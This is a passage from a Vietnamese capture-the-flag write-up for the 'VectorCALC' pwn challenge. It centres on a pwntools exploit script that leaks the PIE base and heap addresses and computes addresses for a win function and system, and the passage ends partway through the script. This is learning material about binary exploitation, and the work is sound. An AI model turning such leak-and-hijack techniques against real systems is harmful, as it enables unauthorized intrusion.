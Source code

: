 
Vậy là trên Local mình đã exploit thành công, mình tiến hành gửi lên server thông qua script sau: 
Vector Exploit:
[xpl.py](https://github.com/w1n-gl0ry/CTF/blob/main/2023/miniCTF/pwn/VectorCALC/xpl.py)
```py
from pwn import *

#context.log_level='debug'
io=process('./chall')
#io=remote('45.122.249.68', 20017)
elf=context.binary=ELF('./chall')
#gdb.attach(io)

def enter(idx, x, y):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index: ', idx)
    io.sendlineafter(b'Enter x: ', x)
    io.sendlineafter(b'Enter y: ', y)
    
def sumVector(idx):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Save the sum to index: ', idx)
    
def printsum():
    io.sendlineafter(b'> ', b'3')
    
def loadfav(idx):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'Index', idx)
    
def printfav(idx):
    io.sendlineafter(b'> ', b'5')
    io.sendlineafter(b'Index', idx)
    
def addfav(idx):
    io.sendlineafter(b'> ', b'6')
    io.sendlineafter(b'Index', idx)
       
enter(b'0', b'1', b'1')
enter(b'1', b'1', b'1')
enter(b'2', b'1', b'1')

sumVector(b'2')
loadfav(b'2')
printfav(b'2')

io.recvuntil(b'v = [')

leak=io.recvline().strip(b']\n').split()
# print(leak)

pie=int(leak[0])-0x35d
log.info('pie_base :' + hex(pie))

v_list=int(leak[1])-48
log.info('v_list array :' + hex(v_list))

sum=v_list+64
faves=sum+0x18
log.info('sum :' + hex(sum))
log.info('faves :' + hex(faves))

w1n=pie+0x0000000000009D2
system=pie+0x100
```